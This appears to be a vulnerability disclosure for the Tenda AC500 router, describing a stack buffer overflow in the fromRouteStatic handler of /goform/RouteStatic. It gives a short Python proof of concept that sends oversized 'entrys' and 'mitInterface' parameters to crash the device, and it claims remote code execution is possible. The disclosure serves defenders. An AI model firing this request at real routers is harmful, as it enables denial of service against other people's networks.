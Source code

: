 # Tenda AC500 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda AC500. (The latest version is [AC500_V2.0.1.9(1307)](https://www.tenda.com.cn/download/detail-2470.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/113/vlun.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.

